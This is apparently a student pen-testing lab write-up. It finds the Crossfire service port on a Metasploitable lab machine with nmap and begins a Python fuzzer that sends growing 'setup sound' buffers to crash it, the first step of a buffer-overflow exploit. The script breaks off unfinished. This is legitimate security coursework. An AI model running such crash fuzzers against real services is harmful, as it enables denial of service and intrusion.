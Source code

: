 ```yaml
---
tags:
  - pen-testing
---
```

## Lab 5

*by Vaughn Valle*

Metasploitable machine running Crossfire: `192.168.1.180`

### The minimum number of bytes needed to cause a crash (per slide 12)
First need to figure out which port Crossfire is running on.
```bash
nmap -sN 192.168.180
```

Without Crossfire running
![[Pasted image 20250402221003.png]]
With Crossfire running
![[Pasted image 20250402220931.png]]
We see a new service pop up using `13327/tcp` when Crossfire is running. This is likely the port Crossfire listens to.

We then create a python script that brute forces the # of bytes needed till we crash.
```python
#!/usr/bin/python
import socket as so
import time
import sys
import subprocess
import re

def fuzz_crossfire(server_ip, server_port):
    """Fuzz Crossfire by sending buffers of increasing size until it crashes"""
    
    # Initial setup
    buffer_prefix = "\x11(setup sound "
    buffer_suffix = "\x90\x00#"
    
    # Counter for fuzzing iterations
    counter = 1
    # Starting buffer length (besides prefix and suffix)
    current_length = 100
    # Maximum buffer length to try
    max_length = 5000
    # Step size for increasing buffer length
    step_size = 20
    
    print(f"[*] Starting fuzzing on {server_ip}:{server_port}")
    print(f"[*] Using buffer prefix: {buffer_prefix}")
    print(f"[*] Using buffer suffix: {buffer_suffix}")
    
    # Test connection first
    try:
        s = so.socket(so.AF_INET, so.SOCK_STREAM)
        s.connect((server_ip, server_port))
        s.recv(1024)
        s.close()
        print("[+] Connection successful")
    except:
```